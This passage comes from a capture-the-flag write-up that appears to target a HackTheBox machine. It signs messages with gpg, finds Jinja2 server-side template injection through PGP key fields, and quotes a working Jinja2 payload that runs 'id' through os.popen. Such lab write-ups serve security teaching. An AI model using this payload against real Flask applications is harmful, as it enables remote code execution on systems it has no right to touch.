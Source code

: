 

Because I have two secret keys in my keyring, I'll need to specify which
one to sign with with `--local-user`:



    oxdf@hacky$ gpg --clearsign -o- --local-user ssti@ssa.htb test.msg
    -----BEGIN PGP SIGNED MESSAGE-----
    Hash: SHA512

    this is a test message for the SSA
    -----BEGIN PGP SIGNATURE-----

    iQHBBAEBCgArFiEEnzmdX3i3xjOXe7ifXSnjOG9U/VIFAmVTtB0NHHNzdGlAc3Nh
    Lmh0YgAKCRBdKeM4b1T9UopSDACfYDhKZ+7tVUCFYf8Nb4W8++h09Sri4RHVSNfK
    NBA9OLeyJYswY8ILpBz6dxYJ/ytHFotXYz1LxKP1VHAHVJn7hWsl+sJSQtTKJcsr
    IXO2j2zijg16oSuzMq7q6uTO61BIFSGELHr6Dl+p67SWiIDqwxTPN76JOJmRECq6
    +Idc9z3xggius+tCMkB3b2spUNMwdDG0mClAKRN7Be4Lwo/yRq5kgktBLRmP27yY
    ShmU/1UbpYKhHK1iCywgLQnd+sGDpeV92uTbbRp8fPy4/3KJ5qW14pFhouuCjC/V
    3jgb+B0t4r4Yr2taxnC95vreVzwlErLaSMV+tvEwGSwBBJL6wpxldg+5VYwFUj+9
    TwCmxGeoeAydgEZTRCa60wjuGQeIvDPooWSt13zDAM6dWruog+xCitJ+QpDbR4+1
    gTa7kRufKAlHUqFhU2GoapSYTZJhs4vI6gqkNCP0oSVxmx0X5cubiURRcn7CC1h3
    OEgazofaQ+XmEQ2lNy7UM04MCEU=
    =0Qam
    -----END PGP SIGNATURE-----



I'll get the new public key (`gpg --export -a ssti@ssa.htb`) and put
them both into the demo form. There are several "49" strings in the
popup!

![](/img/image-20231114125629361.png)

It looks like any time I had `{{ }}` it is handled as code, which
suggests the Flask default template engine, Jinja2.

### RCE

To test for code execution, I'll grab a payload from further down on the
[HackTricks SSTI
page](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python):



    {{ namespace.__init__.__globals__.os.popen('id').read() }}



The steps here are not too complex:

1.  `gpg --gen-key` to make a new key, with that payload as the
    username, and the email being something new I can remember (so like
    `rce-id@ssa.htb` for this one that runs `id`).

    <div>

    <div>
